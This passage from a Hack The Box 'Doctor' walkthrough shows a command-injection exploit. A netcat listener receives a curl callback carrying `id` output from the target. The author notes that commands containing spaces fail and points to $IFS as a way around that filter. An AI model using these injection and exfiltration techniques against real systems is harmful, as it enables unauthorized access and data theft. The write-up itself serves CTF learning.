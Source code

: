 ```text
┌──(zweilos㉿kali)-[~/htb/doctor]
└─$ nc -lvnp 8081                                                                                130 ⨯
listening on [any] 8081 ...
connect to [10.10.15.77] from (UNKNOWN) [10.10.10.209] 39242
GET /uid=1001(web) HTTP/1.1
Host: 10.10.15.77:8081
User-Agent: curl/7.68.0
Accept: */*
```

Putting in a command at the end of my URL results in a request with the `id` context information the service is running under as the user `web`. 

I tried to do some of my normal enumeration such as `cat /etc/passwd`, but it seemed as if I couldn't use any commands with spaces.  Any commands I sent with spaces did not connect back to my machine.

* [https://www.betterhacker.com/2016/10/command-injection-without-spaces.html](https://www.betterhacker.com/2016/10/command-injection-without-spaces.html)

Didn't work

* [https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces)

in bash $IFS is a space by default

![](/assets/img/4-burp.png)

